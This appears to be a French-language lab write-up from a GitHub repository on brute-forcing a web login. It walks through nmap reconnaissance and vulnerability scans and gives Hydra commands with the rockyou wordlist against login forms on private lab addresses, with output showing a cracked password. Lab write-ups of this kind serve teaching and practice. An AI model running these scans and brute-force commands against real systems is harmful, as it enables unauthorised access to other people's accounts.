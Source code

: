 # Brute force mot de passe   

___

Les étapes :     
**ifconfig** pour avoir le masque sous réseau et en déduire l'IP du réseau   
Scan du réseau pour voir l'ensemble des ports ouverts et des machines connectées avec **nmap IP du réseau**    
Obtenir des infos sur la cible (son adresse IP, ses ports ouverts, les statuts des ports et les services qu'ils utilisent, son adresse mac, son OS)   
avec **nmap -O IP de la machine connectée** et **nmap --script default IP de la machine connectée au réseau**          
Scan des vulnérabilités avec **nmpap -v --script vuln IP de la machine connectée**  
____


![image](https://github.com/techerbeatrice/brute_force_mot_de_passe/assets/138071140/27181ac6-8086-46bf-82a4-8e9e939d99f1)


![image](https://github.com/techerbeatrice/brute_force_mot_de_passe/assets/138071140/2fd3b248-1870-4147-9fc5-da17a689d2b6)

![image](https://github.com/techerbeatrice/brute_force_mot_de_passe/assets/138071140/03415c7f-de60-4abb-812c-adda0fd781fb)

https://gist.githubusercontent.com/techerbeatrice/8204e406ba94922aba76167b08c2c38e/raw/fad76d1f4dc16377b9ecd98f9f6f52c13e6a4443/gistfile1.txt


![image](https://github.com/techerbeatrice/brute_force_mot_de_passe/assets/138071140/419dbeba-f18e-4c21-9d4c-df2f7cbbadfb)

_____

Le lien php à craquer :    

http://192.168.56.104/login.php?login=admin

_____

Tutoriel commande sur Hydra :    

hydra  -l admin -P /usr/share/wordlists/rockyou.txt 192.168.56.104 http-post-form "/login:username=^USER^&password=^PASS^:F=Mot de passe invalide" -V

Comment utiliser hydra sur un formulaire web?
Pour faire du bruteforce avec hydra sur une formulaire web, il faudra utiliser la syntaxe suivante
**hydra -l -P http-post-form "{lien vers la page de connexion}:{les paramètres du formulaire}:F={message a rechercher sur la page si la connexion échoue}"**

Dans notre cas l’adresse de la cible est http://192.168.56.104/login, le message d’erreut est “Mot de passe invalide”, et enfin les paramètres de la requête que nous avons pu avoir grâce a l’option réseau du web develloper de firefox.


La commande finale donne:

hydra -l molly -P rockyou.txt 10.10.219.212 http-post-form "/login:username=^USER^&password=^PASS^:F=Your password is incorrect" -V. 
Résultat…

[80][http-post-form] host: 10.10.219.212   login: molly   password: sunshine
1 of 1 target successfully completed, 1 valid password found


